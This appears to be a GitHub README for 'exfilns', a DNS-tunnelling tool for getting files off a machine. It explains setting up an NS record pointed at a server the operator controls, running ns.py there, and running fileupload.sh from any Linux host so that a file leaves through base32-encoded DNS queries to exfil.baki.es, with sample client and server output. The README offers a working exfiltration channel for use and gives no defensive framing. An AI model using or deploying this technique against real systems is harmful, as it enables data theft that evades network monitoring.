 # exfilns
Setup: 
have a NS record for the domain you want to use pointed to a server you own

As an example, I run exfil.baki.es pointed to a digital ocean droplet

```
$ dig +short exfil.baki.es NS
ubuntu-nyc1-01.cloud.baki.es.
```

On the server (ubuntu-nyc1-01.cloud.baki.es in the above example) run ns.py with root permissions (to bind to port 53) 

```
$ python3 ns.py --origin exfil.baki.es
Started dns server
```

from any Linux machine you should be able to run the fileupload.sh script to upload a file to that server and given the domain being used

With the examples above an output will look something like this from the client:

```
$ fileupload.sh /path/to/file exfil.baki.es
This file will take 7 dns requests
start-7.aJw0K723Xh.fu.exfil.baki.es
krugs4zanfzsayjaorsxg5akkrugs4zanfzsayjaorsxg5akkrugs4zanfzsayj.0.aJw0K723Xh.fu.exfil.baki.es
aorsxg5akkrugs4zanfzsayjaorsxg5akkrugs4zanfzsayjaorsxg5akkrugs4.1.aJw0K723Xh.fu.exfil.baki.es
zanfzsayjaorsxg5akkrugs4zanfzsayjaorsxg5akkrugs4zanfzsayjaorsxg.2.aJw0K723Xh.fu.exfil.baki.es
5akkrugs4zanfzsayjaorsxg5akkrugs4zanfzsayjaorsxg5akkrugs4zanfzs.3.aJw0K723Xh.fu.exfil.baki.es
ayjaorsxg5akkrugs4zanfzsayjaorsxg5akkrugs4zanfzsayjaorsxg5akkru.4.aJw0K723Xh.fu.exfil.baki.es
gs4zanfzsayjaorsxg5akkrugs4zanfzsayjaorsxg5akkrugs4zanfzsayjaor.5.aJw0K723Xh.fu.exfil.baki.es
sxg5akkrugs4zanfzsayjaorsxg5ak.6.aJw0K723Xh.fu.exfil.baki.es
```


And like this from the server output will now have something like this:
```
New file incoming, lines: 7
File: gpvkwjwoh6 14 % complete
File: gpvkwjwoh6 28 % complete
File: gpvkwjwoh6 42 % complete
File: gpvkwjwoh6 57 % complete
File: gpvkwjwoh6 71 % complete
File: gpvkwjwoh6 85 % complete
File: gpvkwjwoh6 100 % complete
File: gpvkwjwoh6 written to disk

```

The file is given a unique handle (above `aJw0K723Xh`) and is written in the same folder as the python script and is base32 encoded 
